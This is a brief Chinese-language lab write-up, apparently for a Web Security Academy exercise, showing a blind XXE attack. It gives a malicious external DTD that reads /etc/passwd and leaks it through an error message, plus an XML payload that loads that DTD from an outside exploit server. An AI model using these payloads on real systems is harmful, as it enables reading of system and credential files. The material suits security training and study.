

## 1. 攻击服务器部署恶意dtd文件

poc内容：

```javascript
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

- 定义名为的XML参数实体file，其中包含/etc/passwd文件的内容。

- 定义一个名为的XML参数实体eval，其中包含另一个名为的XML参数实体的动态声明error。该error实体将通过加载一个不存在的文件名称中包含的价值进行评估file实体。

- 使用eval实体，这将导致error执行实体的动态声明。

- 使用error实体，以便通过尝试加载不存在的文件来评估其值，从而产生一条错误消息，其中包含不存在的文件的名称，即文件的内容/etc/passwd。


## 2. xxe，访问部署的dtd文件

poc:

```javascript
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://ac751ffa1eab9ea0802029da01870006.web-security-academy.net/exploit.dtd"> %xxe; ]>
<stockCheck><productId>%xxe</productId><storeId>1</storeId></stockCheck>
```




